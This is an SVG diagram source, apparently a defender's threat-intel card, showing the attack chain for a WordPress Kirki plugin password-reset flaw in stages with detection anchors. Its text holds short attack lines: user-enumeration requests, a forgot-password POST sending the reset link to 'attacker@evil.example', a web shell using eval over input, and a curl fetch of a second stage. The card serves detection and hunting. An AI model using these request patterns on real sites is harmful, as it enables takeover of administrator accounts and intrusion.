

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 880 1080" role="img" aria-labelledby="t d">
  <defs>
    <style>
.bg { fill: #ffffff; }
.head { font: 700 18px sans-serif; fill: #0a0a0a; }
.meta { font: 11px sans-serif; fill: #404040; }
.laneL { fill: #f3f7fb; stroke: #5a7da6; stroke-width: 1.2; }
.laneR { fill: #faf3ee; stroke: #b07a3a; stroke-width: 1.2; }
.laneLabelL { font: 700 12px sans-serif; fill: #2a4a6a; }
.laneLabelR { font: 700 12px sans-serif; fill: #8a5520; }
.stage { fill: #ffffff; stroke: #5a7da6; stroke-width: 1.1; }
.stageK { fill: #fdecec; stroke: #b03030; stroke-width: 1.4; }
.op { fill: #ffffff; stroke: #b07a3a; stroke-width: 1.1; }
.opK { fill: #fdecec; stroke: #b03030; stroke-width: 1.4; }
.band { fill: #f7f1eb; stroke: #c08555; stroke-width: 1.2; }
.badge { fill: #5a7da6; }
.badgeK { fill: #b03030; }
.badgeR { fill: #b07a3a; }
.badgeText { font: 700 12px sans-serif; fill: #ffffff; text-anchor: middle; }
.label { font: 700 13px sans-serif; fill: #0a0a0a; }
.sub { font: 11px sans-serif; fill: #303030; }
.mono { font: 10.5px ui-monospace, "SFMono-Regular", Consolas, monospace; fill: #303030; }
.footer { fill: #f6f6f4; stroke: #888; stroke-width: 1; }
.footerH { font: 700 12px sans-serif; fill: #1a1a1a; }
.footerT { font: 10.5px sans-serif; fill: #1a1a1a; }
.arrow { stroke: #2a4a6a; stroke-width: 1.6; fill: none; color: #2a4a6a; }
.arrowX { stroke: #7a3a7a; stroke-width: 1.6; fill: none; stroke-dasharray: 5 3; }
.arrowR { stroke: #8a5520; stroke-width: 1.6; fill: none; }

@media (prefers-color-scheme: dark) {
  .bg { fill: #0d1117; }
  .head, .label, .footerH { fill: #f0f0f0; }
  .meta, .sub, .footerT { fill: #c8c8c8; }
  .mono { fill: #c0d0e0; }
  .laneL { fill: #182230; stroke: #7aa6d0; }
  .laneR { fill: #2a2418; stroke: #d09a5a; }
  .laneLabelL { fill: #a8c6e2; }
  .laneLabelR { fill: #e2bf8a; }
  .stage { fill: #1c2530; stroke: #7aa6d0; }
  .stageK { fill: #3a1818; stroke: #e06060; }
  .op { fill: #2a2418; stroke: #d09a5a; }
  .opK { fill: #3a1818; stroke: #e06060; }
  .band { fill: #2a2418; stroke: #d09a5a; }
  .badge { fill: #7aa6d0; }
  .badgeK { fill: #e06060; }
  .badgeR { fill: #d09a5a; }
  .badgeText { fill: #0d1117; }
  .footer { fill: #1a1d22; stroke: #555; }
  .arrow { stroke: #a8c6e2; color: #a8c6e2; }
  .arrowX { stroke: #c898d0; }
  .arrowR { stroke: #e2bf8a; }
}
+ 
+ .acc-ransomware { fill: #b03030; }
+ .acc-espionage { fill: #2a4a6a; }
+ .acc-supply-chain { fill: #b07a3a; }
+ .acc-identity-cloud { fill: #6a4ca6; }
+ .acc-ot-ics { fill: #2f8f4e; }
+ .acc-edge-network { fill: #1d7a8c; }
+ .acc-mobile { fill: #c2569a; }
+ .acc-crypto-defi { fill: #d08a1f; }
+ .acc-malware-re { fill: #556070; }
+ .acc-other { fill: #6a6a6a; }
+ .accLabel { font: 700 11px sans-serif; fill: #ffffff; }
</style>
    <marker id="ah" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="currentColor" />
    </marker>
  </defs>
  <rect class="bg" x="0" y="0" width="880" height="1080" />
+   <rect class="acc-edge-network" x="0" y="0" width="880" height="8" />
  <text class="head" x="20" y="36">Kirki CVE-2026-8206 - WordPress unauthenticated admin takeover</text>
  <text class="meta" x="20" y="58">Vendor: Wordfence/Defiant, Orca, Microsoft (Miasma) - Date: 2026-06-02 - Cluster: unattributed web exploitation - Day 38</text>
  <rect class="laneL" x="20" y="85" width="840" height="890" />
  <text class="laneLabelL" x="34" y="105">CVE-2026-8206 attack timeline (recon to exfil) - red = highest-signal detection anchors</text>
  <rect class="stage" x="30" y="120" width="820" height="130" />
  <circle class="badge" cx="50" cy="140" r="14" />
  <text class="badgeText" x="50" y="144">1</text>
  <text class="label" x="74" y="146">Reconnaissance - username enumeration</text>
  <text class="sub" x="74" y="170">Attacker needs one valid user_login (admin, editor, owner slug).</text>
  <text class="sub" x="74" y="186">WordPress leaks usernames via author archives and the REST users route.</text>
  <text class="sub" x="74" y="202">MITRE T1595.002, T1589.002, T1087.001</text>
  <text class="mono" x="74" y="226">GET /?author=1  -&gt;  301 /author/&lt;login&gt;/</text>
  <text class="mono" x="74" y="242">GET /wp-json/wp/v2/users  -&gt;  JSON {id,name,slug}</text>
  <rect class="stage" x="30" y="265" width="820" height="130" />
  <circle class="badge" cx="50" cy="285" r="14" />
  <text class="badgeText" x="50" y="289">2</text>
  <text class="label" x="74" y="291">Initial Access - unauthenticated forgot-password POST</text>
  <text class="sub" x="74" y="315">CompLibFormHandler::handle_forgot_password (Kirki 6.0.0-6.0.6) mails the</text>
  <text class="sub" x="74" y="331">reset link to the email in the REQUEST, not the account stored email.</text>
  <text class="sub" x="74" y="347">MITRE T1190 - one request, no auth, no user interaction (CVSS 9.8)</text>
  <text class="mono" x="74" y="371">POST /wp-json/&lt;ns&gt;/forgot-password</text>
  <text class="mono" x="74" y="387">username=admin&amp;email=attacker@evil.example</text>
  <rect class="stageK" x="30" y="410" width="820" height="130" />
  <circle class="badgeK" cx="50" cy="430" r="14" />
  <text class="badgeText" x="50" y="434">3</text>
  <text class="label" x="74" y="436">Reset link delivered to the ATTACKER mailbox  [ANCHOR]</text>
  <text class="sub" x="74" y="460">Plugin sends wp-login.php?action=rp&amp;key=...&amp;login=admin to attacker.</text>
  <text class="sub" x="74" y="476">Detection anchor: reset recipient != account stored user_email (~0% FP).</text>
  <text class="sub" x="74" y="492">MITRE T1098 - account manipulation via password reset</text>
  <text class="mono" x="74" y="516">App/MTA log: to=&lt;attacker@...&gt; for login=admin</text>
  <text class="mono" x="74" y="532">hunts/peak_h1_reset_email_mismatch.md</text>
  <rect class="stage" x="30" y="555" width="820" height="130" />
  <circle class="badge" cx="50" cy="575" r="14" />
  <text class="badgeText" x="50" y="579">4</text>
  <text class="label" x="74" y="581">Valid Accounts - attacker logs in as administrator</text>
  <text class="sub" x="74" y="605">Attacker clicks the link, sets a new password, authenticates to /wp-admin/.</text>
  <text class="sub" x="74" y="621">CMS admin is RCE-by-design: plugin/theme editor and plugin upload.</text>
  <text class="sub" x="74" y="637">MITRE T1078 - valid accounts (administrator)</text>
  <text class="mono" x="74" y="661">GET /wp-admin/  (200, new source ASN)</text>
  <text class="mono" x="74" y="677">hunts/peak_h2_new_admin_after_disclosure.md</text>
  <rect class="stageK" x="30" y="700" width="820" height="130" />
  <circle class="badgeK" cx="50" cy="720" r="14" />
  <text class="badgeText" x="50" y="724">5</text>
  <text class="label" x="74" y="726">Persistence - web shell / rogue admin  [ANCHOR]</text>
  <text class="sub" x="74" y="750">Media upload or theme editor drops a PHP web shell; optional 2nd admin.</text>
  <text class="sub" x="74" y="766">Detection anchor: any .php under wp-content/uploads (should be ZERO).</text>
  <text class="sub" x="74" y="782">MITRE T1505.003, T1136.001, T1059.004</text>
  <text class="mono" x="74" y="806">wp-content/uploads/2026/06/icon.php  (eval over input)</text>
  <text class="mono" x="74" y="822">www-data spawns sh/curl/wget = code execution</text>
  <rect class="stage" x="30" y="845" width="820" height="130" />
  <circle class="badge" cx="50" cy="865" r="14" />
  <text class="badgeText" x="50" y="869">6</text>
  <text class="label" x="74" y="871">C2 and Exfiltration</text>
  <text class="sub" x="74" y="895">Web shell pulls second-stage from raw-code/paste hosts; data exfil over HTTP(S).</text>
  <text class="sub" x="74" y="911">Host signal: serving box reaching raw.githubusercontent.com / transfer.sh.</text>
  <text class="sub" x="74" y="927">MITRE T1071.001, T1105, T1041</text>
  <text class="mono" x="74" y="951">curl raw.githubusercontent.com/...  -&gt; /tmp stage2</text>
  <text class="mono" x="74" y="967">hunts/peak_h3_webshell_foothold.md</text>
  <path class="arrow" d="M440,250 L440,265" marker-end="url(#ah)" />
  <path class="arrow" d="M440,395 L440,410" marker-end="url(#ah)" />
  <path class="arrow" d="M440,540 L440,555" marker-end="url(#ah)" />
  <path class="arrow" d="M440,685 L440,700" marker-end="url(#ah)" />
  <path class="arrow" d="M440,830 L440,845" marker-end="url(#ah)" />
  <rect class="footer" x="20" y="985" width="840" height="85" />
  <text class="footerH" x="34" y="1012">Why-today: disclosed 2026-06-02 (Wordfence/Orca), patched in Kirki 6.0.7 on 2026-05-18; ~150K of 500K sites vulnerable; early active scanning.</text>
  <text class="footerT" x="34" y="1034">Durable lesson: a logic bug has no signature. Detect behaviour - reset recipient mismatch and PHP under uploads - and hunt from the patch date.</text>
  <text class="footerT" x="34" y="1054">Secondary: Miasma npm worm (forged SLSA provenance via GitHub OIDC) and Netlogon RCE CVE-2026-41089 - same 2026-06-01/02 window.</text>
</svg>
